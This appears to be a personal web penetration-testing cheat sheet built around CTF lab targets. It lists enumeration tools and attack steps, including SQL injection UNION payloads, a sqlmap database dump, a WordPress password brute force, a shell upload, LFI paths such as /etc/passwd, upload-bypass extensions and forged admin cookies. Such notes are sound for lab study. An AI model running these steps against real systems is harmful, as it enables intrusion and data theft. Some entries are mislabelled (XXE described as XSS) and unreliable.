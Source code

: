 ### Enumeration
- assetfinder
- subfinder
  - `subfinder -d url -o filename`
- Amass
  - `amass enum- d url`
- crt.sh
- httprobe - validate what is live
- gobuster
  - `gobuster dir -u http://10.10.10.10:port -w /usr/share/wordlists/dirb/big.txt`
- Nikto
  - `nikto -h -10.10.10.10 -p 80,8080,1234`
- wpscan
  - `wpscan --update`
  - `wpscan --url <ip>`
  - `wpscan --url [url] --enumerate [p/vp/ap/t/vt/at] --plugins-detection aggressive`
  - `wpscan --url [target URL] --enumerate u`
  - `wpscan --url http://internal.thm/blog/ --passwords /opt/wordlists/rockyou.txt`
  - upload shell to WP_dashboard
- nmap scans
  - `nmap --script=http-enum <host>`
  - `nmap --script=http-vuln* $ip`
- GTFOBins
- sitemap.xml - add to end of url
  - `http://10.10.10.10/sitemap.xml`
- others: fuff, dirb, hydra, theharvester, curl

### Options
- sqlmap
  - copy login portal post request from burp -> sqlmap.txt
  - `sqlmap -r sqlmap.txt --dump`
  - check for any interesting tables
- source code and inspect 
- LFI
  - Directories
    - /etc/passwd
    - /var/log/apache2/access.log
    - C:\Windows\System32\drivers\etc\hosts
- SQL Injection
  - Union
    - `' UNION SELECT NULL,NULL,NULL--`
    - `' UNION SELECT 'a',NULL,NULL,NULL--`
  - Bind
  - XXS
- Command Injection
- File Upload
  - .php5, .shtml, php.jpg, php%00.jpg
- Auth
- IDOR
  - attempt to manipulate url (such as an id number)
  - view post/get requests - data, query strings, cookies
    - decode, change it, and recode
- XXE
  - Reflected - comes from current HTTP request
  - Stored - comes from websites database
  - DOM-based - comes from client side code rather than service-side code
- Uniscan for LFI, RFI and RCE vulnerabilities
  - `uniscan -u http://10.10.10.10/ -qd`
- vuln scans
  - `nmap --script=http-enum <host>`
  - `nmap --script=http-vuln* $ip`
  - nikto -h $ip
    - very loud and obvious

#### Cookies
- `curl http://10.10.10.10/cookie-test`
- `curl -H "Cookie: logged_in=true; admin=false" http://10.10.10.10/cookie-test`
- `curl -H "Cookie: logged_in=true; admin=true" http://10.10.10.10/cookie-test`
- attempt to crack hashed cookies or decode encoded cookies

#### Favicon
- can view favicon hash and see if there are vulns
- `curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum`
- visit: https://wiki.owasp.org/index.php/OWASP_favicon_database
